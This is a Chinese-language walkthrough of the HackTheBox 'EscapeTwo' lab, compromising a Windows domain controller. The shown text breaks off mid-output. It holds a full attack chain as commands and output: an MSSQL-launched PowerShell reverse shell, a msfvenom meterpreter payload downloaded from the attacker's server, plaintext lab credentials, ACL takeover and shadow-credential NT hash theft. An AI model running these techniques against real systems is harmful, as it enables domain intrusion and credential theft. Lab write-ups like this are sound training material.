


# EscapeTwo

:::info

Difficulty: Easy

Operating System: Windows

Machine Information

> As is common in real life Windows pentests, you will start this box with credentials for the following account: rose / KxEPkKe6R8su
>
> 正如现实生活中的 Windows 渗透测试中常见的那样，您将从以下账户的凭据开始进行此测试：`rose / KxEPkKe6R8su`

:::

## 信息搜集

```shell
┌──(randark ㉿ kali)-[~]
└─$ sudo ./tools/fscan-1.8.4/fscan -h 10.10.11.51
start infoscan
10.10.11.51:135 open
10.10.11.51:445 open
10.10.11.51:139 open
10.10.11.51:1433 open
10.10.11.51:88 open
[*] alive ports len is: 5
start vulscan
[*] NetInfo
[*]10.10.11.51
   [->]DC01
   [->]10.10.11.51
已完成 5/5
[*] 扫描结束, 耗时: 58.843735496s

┌──(randark ㉿ kali)-[~]
└─$ sudo nmap -v --min-rate=2000 -A -p- 10.10.11.51
Nmap scan report for bogon (10.10.11.51)
Host is up (0.11s latency).
Not shown: 65509 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-03 00:46:14Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-04-03T00:47:55+00:00; -18m55s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.sequel.htb
| Issuer: commonName=sequel-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-08T17:35:00
| Not valid after:  2025-06-08T17:35:00
| MD5:   09fd:3df4:9f58:da05:410d:e89e:7442:b6ff
|_SHA-1: c3ac:8bfd:6132:ed77:2975:7f5e:6990:1ced:528e:aac5
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.sequel.htb
| Issuer: commonName=sequel-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-08T17:35:00
| Not valid after:  2025-06-08T17:35:00
| MD5:   09fd:3df4:9f58:da05:410d:e89e:7442:b6ff
|_SHA-1: c3ac:8bfd:6132:ed77:2975:7f5e:6990:1ced:528e:aac5
|_ssl-date: 2025-04-03T00:47:55+00:00; -18m55s from scanner time.
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2025-04-03T00:47:55+00:00; -18m55s from scanner time.
| ms-sql-info:
|   10.10.11.51:1433:
|     Version:
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info:
|   10.10.11.51:1433:
|     Target_Name: SEQUEL
|     NetBIOS_Domain_Name: SEQUEL
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: DC01.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-03T00:40:46
| Not valid after:  2055-04-03T00:40:46
| MD5:   dc66:46d4:ae3f:df90:9eb8:8128:8bbc:2fbd
|_SHA-1: 00a2:38e8:66b1:2bc0:6476:f7ce:8551:8126:d81d:b51f
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.sequel.htb
| Issuer: commonName=sequel-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-08T17:35:00
| Not valid after:  2025-06-08T17:35:00
| MD5:   09fd:3df4:9f58:da05:410d:e89e:7442:b6ff
|_SHA-1: c3ac:8bfd:6132:ed77:2975:7f5e:6990:1ced:528e:aac5
|_ssl-date: 2025-04-03T00:47:55+00:00; -18m55s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.sequel.htb
| Issuer: commonName=sequel-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-08T17:35:00
| Not valid after:  2025-06-08T17:35:00
| MD5:   09fd:3df4:9f58:da05:410d:e89e:7442:b6ff
|_SHA-1: c3ac:8bfd:6132:ed77:2975:7f5e:6990:1ced:528e:aac5
|_ssl-date: 2025-04-03T00:47:55+00:00; -18m55s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  msrpc         Microsoft Windows RPC
49706/tcp open  msrpc         Microsoft Windows RPC
49722/tcp open  msrpc         Microsoft Windows RPC
49743/tcp open  msrpc         Microsoft Windows RPC
49804/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=256 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

在扫描结果中得到两个主机名，将其添加到 `/etc/hosts`

- DC01.sequel.htb
- sequel.htb

## Windows SMB 探测

```shell
┌──(randark ㉿ kali)-[~]
└─$ crackmapexec smb sequel.htb -u "rose" -p "KxEPkKe6R8su" --rid-brute
SMB         sequel.htb      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         sequel.htb      445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su
SMB         sequel.htb      445    DC01             [+] Brute forcing RIDs
SMB         sequel.htb      445    DC01             498: SEQUEL\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         sequel.htb      445    DC01             500: SEQUEL\Administrator (SidTypeUser)
SMB         sequel.htb      445    DC01             501: SEQUEL\Guest (SidTypeUser)
SMB         sequel.htb      445    DC01             502: SEQUEL\krbtgt (SidTypeUser)
SMB         sequel.htb      445    DC01             512: SEQUEL\Domain Admins (SidTypeGroup)
SMB         sequel.htb      445    DC01             513: SEQUEL\Domain Users (SidTypeGroup)
SMB         sequel.htb      445    DC01             514: SEQUEL\Domain Guests (SidTypeGroup)
SMB         sequel.htb      445    DC01             515: SEQUEL\Domain Computers (SidTypeGroup)
SMB         sequel.htb      445    DC01             516: SEQUEL\Domain Controllers (SidTypeGroup)
SMB         sequel.htb      445    DC01             517: SEQUEL\Cert Publishers (SidTypeAlias)
SMB         sequel.htb      445    DC01             518: SEQUEL\Schema Admins (SidTypeGroup)
SMB         sequel.htb      445    DC01             519: SEQUEL\Enterprise Admins (SidTypeGroup)
SMB         sequel.htb      445    DC01             520: SEQUEL\Group Policy Creator Owners (SidTypeGroup)
SMB         sequel.htb      445    DC01             521: SEQUEL\Read-only Domain Controllers (SidTypeGroup)
SMB         sequel.htb      445    DC01             522: SEQUEL\Cloneable Domain Controllers (SidTypeGroup)
SMB         sequel.htb      445    DC01             525: SEQUEL\Protected Users (SidTypeGroup)
SMB         sequel.htb      445    DC01             526: SEQUEL\Key Admins (SidTypeGroup)
SMB         sequel.htb      445    DC01             527: SEQUEL\Enterprise Key Admins (SidTypeGroup)
SMB         sequel.htb      445    DC01             553: SEQUEL\RAS and IAS Servers (SidTypeAlias)
SMB         sequel.htb      445    DC01             571: SEQUEL\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         sequel.htb      445    DC01             572: SEQUEL\Denied RODC Password Replication Group (SidTypeAlias)
SMB         sequel.htb      445    DC01             1000: SEQUEL\DC01$ (SidTypeUser)
SMB         sequel.htb      445    DC01             1101: SEQUEL\DnsAdmins (SidTypeAlias)
SMB         sequel.htb      445    DC01             1102: SEQUEL\DnsUpdateProxy (SidTypeGroup)
SMB         sequel.htb      445    DC01             1103: SEQUEL\michael (SidTypeUser)
SMB         sequel.htb      445    DC01             1114: SEQUEL\ryan (SidTypeUser)
SMB         sequel.htb      445    DC01             1116: SEQUEL\oscar (SidTypeUser)
SMB         sequel.htb      445    DC01             1122: SEQUEL\sql_svc (SidTypeUser)
SMB         sequel.htb      445    DC01             1128: SEQUEL\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)
SMB         sequel.htb      445    DC01             1129: SEQUEL\SQLRUserGroupSQLEXPRESS (SidTypeAlias)
SMB         sequel.htb      445    DC01             1601: SEQUEL\rose (SidTypeUser)
SMB         sequel.htb      445    DC01             1602: SEQUEL\Management Department (SidTypeGroup)
SMB         sequel.htb      445    DC01             1603: SEQUEL\Sales Department (SidTypeGroup)
SMB         sequel.htb      445    DC01             1604: SEQUEL\Accounting Department (SidTypeGroup)
SMB         sequel.htb      445    DC01             1605: SEQUEL\Reception Department (SidTypeGroup)
SMB         sequel.htb      445    DC01             1606: SEQUEL\Human Resources Department (SidTypeGroup)
SMB         sequel.htb      445    DC01             1607: SEQUEL\ca_svc (SidTypeUser)
```

尝试列出共享目录

```shell
┌──(randark ㉿ kali)-[~]
└─$ smbclient -U rose -L 10.10.11.51
Password for [WORKGROUP\rose]:

        Sharename               Type      Comment
        ---------               ----      -------
        Accounting Department   Disk
        ADMIN$                  Disk      Remote Admin
        C$                      Disk      Default share
        IPC$                    IPC       Remote IPC
        NETLOGON                Disk      Logon server share
        SYSVOL                  Disk      Logon server share
        Users                   Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.51 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

看一下 `Accounting Department` 这个共享有什么东西

```shell
┌──(randark ㉿ kali)-[~]
└─$ smbclient //10.10.11.51/'Accounting Department' -U rose
Password for [WORKGROUP\rose]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Jun  9 18:52:21 2024
  ..                                  D        0  Sun Jun  9 18:52:21 2024
  accounting_2024.xlsx                A    10217  Sun Jun  9 18:14:49 2024
  accounts.xlsx                       A     6780  Sun Jun  9 18:52:07 2024

                6367231 blocks of size 4096. 928869 blocks available
```

将两个 `xlsx` 表格文件下载下来查看

```shell
smb: \> get accounting_2024.xlsx
getting file \accounting_2024.xlsx of size 10217 as accounting_2024.xlsx (26.8 KiloBytes/sec) (average 26.8 KiloBytes/sec)
smb: \> get accounts.xlsx
getting file \accounts.xlsx of size 6780 as accounts.xlsx (18.4 KiloBytes/sec) (average 22.7 KiloBytes/sec)
```

但是出于未知原因，下载得到的 xlsx 文件存在有数据块错误



手动进行修复之后，在 `accounts.xlsx` 文件中得到以下凭据

| First Name | Last Name |        Email        | Username |     Password     |
| :--------: | :-------: | :-----------------: | :------: | :--------------: |
|   Angela   |  Martin   | `angela@sequel.htb` |  angela  | 0fwz7Q4mSpurIt99 |
|   Oscar    | Martinez  | `oscar@sequel.htb`  |  oscar   | 86LxLBMgEWaKUnBG |
|   Kevin    |  Malone   | `kevin@sequel.htb`  |  kevin   | Md9Wlq1E5bZnVDVo |
|    NULL    |   NULL    |   `sa@sequel.htb`   |    sa    |  MSSQLP@ssw0rd!  |

## Windows Mssql

结合扫描到的 `mssql` 服务，以及泄露的 `sa@sequel.htb` 凭据，尝试登录 mssql 服务

```shell
┌──(randark ㉿ kali)-[~]
└─$ netexec mssql sequel.htb -u sa -p MSSQLP@ssw0rd!
[*] First time use detected
[*] Creating home directory structure
[*] Creating missing folder logs
[*] Creating missing folder modules
[*] Creating missing folder protocols
[*] Creating missing folder workspaces
[*] Creating missing folder obfuscated_scripts
[*] Creating missing folder screenshots
[*] Creating default workspace
[*] Initializing WINRM protocol database
[*] Initializing SMB protocol database
[*] Initializing LDAP protocol database
[*] Initializing SSH protocol database
[*] Initializing RDP protocol database
[*] Initializing WMI protocol database
[*] Initializing MSSQL protocol database
[*] Initializing NFS protocol database
[*] Initializing VNC protocol database
[*] Initializing FTP protocol database
[*] Copying default configuration file
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [-] sequel.htb\sa:MSSQLP@ssw0rd! (Login failed. The login is from an untrusted domain and cannot be used with Integrated authentication. Please try again with or without '--local-auth')

┌──(randark ㉿ kali)-[~]
└─$ netexec mssql sequel.htb -u sa -p MSSQLP@ssw0rd! --local-auth
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
```

尝试基于 mssql 服务反弹 shell

```shell
# Session 1
┌──(randark ㉿ kali)-[~]
└─$ netexec mssql sequel.htb -u sa -p MSSQLP@ssw0rd! --local-auth -x 'powershell -e J.........pAA=='
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
MSSQL       10.10.11.51     1433   DC01             [-] Execute command failed, error: 'NXCAdapter' object has no attribute 'merge_extra'

# Session 2
┌──(randark ㉿ kali)-[~]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.16.31] from (UNKNOWN) [10.10.11.51] 50242
whoami
sequel\sql_svc
PS C:\Windows\system32>
```

## 权限维持 sequel\sql_svc

```shell
# Kali
┌──(randark ㉿ kali)-[~]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.31 LPORT=9111 -f exe -o 10.10.16.31-9111.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: 10.10.16.31-9111.exe
┌──(randark ㉿ kali)-[~]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.51 - - [03/Apr/2025 09:58:00] "GET /10.10.16.31-9111.exe HTTP/1.1" 200 -

# Machine
PS C:\Windows\system32> Invoke-WebRequest -Uri 10.10.16.31/10.10.16.31-9111.exe -OutFile C:\\Users\\Public\\Downloads\\exp.exe
PS C:\Windows\system32> ls C:\\Users\\Public\\Downloads


    Directory: C:\Users\Public\Downloads


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/2/2025   6:43 PM          73802 exp.exe
```

部署载荷之后，建立监听接收 C2 会话

```shell
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > set LPORT 9111
LPORT => 9111
msf6 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 0.0.0.0:9111
[*] Sending stage (177734 bytes) to 10.10.11.51
[*] Meterpreter session 1 opened (10.10.16.31:9111 -> 10.10.11.51:56065) at 2025-04-03 10:02:45 +0800

meterpreter > sysinfo
Computer        : DC01
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : SEQUEL
Logged On Users : 11
Meterpreter     : x86/windows
meterpreter > getuid
Server username: SEQUEL\sql_svc
```

## 提权至 ryan

以 `SEQUEL\sql_svc` 用户的权限，在靶机上搜集信息，得到

```plaintext title="C:\\SQL2019\\ExpressAdv_ENU\\sql-Configuration.INI"
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False"
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
```

尝试使用 `ryan:WqSZAF6CysDQbGb3` 这个凭据，通过 `evil-winrm` 进行攻击

```shell
┌──(randark ㉿ kali)-[~]
└─$ evil-winrm -i 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami
sequel\ryan
```

## 权限维持 sequel\ryan

```shell
msf6 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 0.0.0.0:9111
[*] Sending stage (177734 bytes) to 10.10.11.51
[*] Meterpreter session 2 opened (10.10.16.31:9111 -> 10.10.11.51:57721) at 2025-04-03 13:19:22 +0800

meterpreter > sysinfo
Computer        : DC01
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Meterpreter     : x86/windows
meterpreter > getuid
Server username: SEQUEL\ryan
```

## FLAG - USER

```flag title="C:\\Users\\ryan\\Desktop\\user.txt"
34cd418e2b0f83c1a5cd78518e05409e
```

## BloodHound 枚举

```shell
┌──(randark ㉿ kali)-[~]
└─$ bloodhound-python -c All -u ryan -p WqSZAF6CysDQbGb3 -ns 10.10.11.51 -d sequel.htb  --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: sequel.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc01.sequel.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.sequel.htb
INFO: Found 10 users
INFO: Found 59 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.sequel.htb
INFO: Done in 00M 15S
INFO: Compressing output into 20250403132606_bloodhound.zip
```

然后启动 `bloodhound` 进行分析



参考 [Active Directory - Access Controls ACL/ACE - Internal All The Things](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adds-acl-ace/#writedacl)

先将 ryan 设置成 owner

```shell
┌──(randark ㉿ kali)-[~]
└─$ impacket-owneredit -new-owner ryan -target ca_svc -dc-ip 10.10.11.51 -action write sequel.htb/ryan:WqSZAF6CysDQbGb3
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Current owner information below
[*] - SID: S-1-5-21-548670397-972687484-3496335370-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=sequel,DC=htb
[*] OwnerSid modified successfully!
```

参考 [DACL (Discretionary Access Control List) Attack | Exploit Notes](https://exploit-notes.hdks.org/exploit/windows/active-directory/dacl-attack/#2.-read-dacl)

而后利用 dacledit 修改 ACL

```shell
┌──(randark ㉿ kali)-[~]
└─$ impacket-dacledit -action write -target ca_svc -principal ryan -rights FullControl -ace-type allowed -dc-ip 10.10.11.51 sequel.htb/ryan:WqSZAF6CysDQbGb3
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] DACL backed up to dacledit-20250403-141507.bak
[*] DACL modified successfully!
```

即可尝试获取 Shadow Credentials

```shell
┌──(randark ㉿ kali)-[~]
└─$ sudo timedatectl set-ntp 0

┌──(randark ㉿ kali)-[~]
└─$ sudo ntpdate sequel.htb
2025-04-03 14:05:52.177708 (+0800) -1136.144118 +/- 0.037508 sequel.htb 10.10.11.51 s1 no-leap
CLOCK: time stepped by -1136.144118

┌──(randark ㉿ kali)-[~]
└─$ certipy-ad shadow auto -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' -dc-ip 10.129.186.118 -target DC01.sequel.htb -account ca_svc
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '275f077c-1825-ac69-644d-02b8262dffff'
[*] Adding Key Credential with device ID '275f077c-1825-ac69-644d-02b8262dffff' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '275f077c-1825-ac69-644d-02b8262dffff' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Using principal: ca_svc@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce
```

将票据保存至环境变量

```shell
┌──(randark ㉿ kali)-[~]
└─$ export KRB5CCNAME=./ca_svc.ccache
```

而后尝试枚举漏洞

```shell
┌──(randark ㉿ kali)-[~]
└─$ certipy-ad find -scheme ldap -k -debug -target DC01.sequel.htb -dc-ip 10.10.11.51 -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Domain retrieved from CCache: SEQUEL.HTB
[+] Username retrieved from CCache: ca_svc
[+] Trying to resolve 'DC01.sequel.htb' at '10.10.11.51'
[+] Authenticating to LDAP server
[+] Using Kerberos Cache: ./ca_svc.ccache
[+] Using TGT from cache
[+] Username retrieved from CCache: ca_svc
[+] Getting TGS for 'host/DC01.sequel.htb'
[+] Got TGS for 'host/DC01.sequel.htb'
[+] Bound to ldap://10.10.11.51:389 - cleartext
[+] Default path: DC=sequel,DC=htb
[+] Configuration path: CN=Configuration,DC=sequel,DC=htb
[+] Adding Domain Computers to list of current user's SIDs
[+] List of current user's SIDs:
     SEQUEL.HTB\Domain Users (S-1-5-21-548670397-972687484-3496335370-513)
     SEQUEL.HTB\Cert Publishers (S-1-5-21-548670397-972687484-3496335370-517)
     SEQUEL.HTB\Authenticated Users (SEQUEL.HTB-S-1-5-11)
     SEQUEL.HTB\Certification Authority (S-1-5-21-548670397-972687484-3496335370-1607)
     SEQUEL.HTB\Domain Computers (S-1-5-21-548670397-972687484-3496335370-515)
     SEQUEL.HTB\Denied RODC Password Replication Group (S-1-5-21-548670397-972687484-3496335370-572)
     SEQUEL.HTB\Users (SEQUEL.HTB-S-1-5-32-545)
     SEQUEL.HTB\Everyone (SEQUEL.HTB-S-1-1-0)
[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[+] Resolved 'DC01.sequel.htb' from cache: 10.10.11.51
[*] Trying to get CA configuration for 'sequel-DC01-CA' via CSRA
[+] Trying to get DCOM connection for: 10.10.11.51
[+] Using Kerberos Cache: ./ca_svc.ccache
[+] Using TGT from cache
[+] Username retrieved from CCache: ca_svc
[+] Getting TGS for 'host/DC01.sequel.htb'
[+] Got TGS for 'host/DC01.sequel.htb'
[!] Got error while trying to get CA configuration for 'sequel-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC01-CA' via RRP
[+] Using Kerberos Cache: ./ca_svc.ccache
[+] Using TGT from cache
[+] Username retrieved from CCache: ca_svc
[+] Getting TGS for 'host/DC01.sequel.htb'
[+] Got TGS for 'host/DC01.sequel.htb'
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[+] Connected to remote registry at 'DC01.sequel.htb' (10.10.11.51)
[*] Got CA configuration for 'sequel-DC01-CA'
[+] Resolved 'DC01.sequel.htb' from cache: 10.10.11.51
[+] Connecting to 10.10.11.51:80
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sequel-DC01-CA
    DNS Name                            : DC01.sequel.htb
    Certificate Subject                 : CN=sequel-DC01-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 152DBD2D8E9C079742C0F3BFF2A211D3
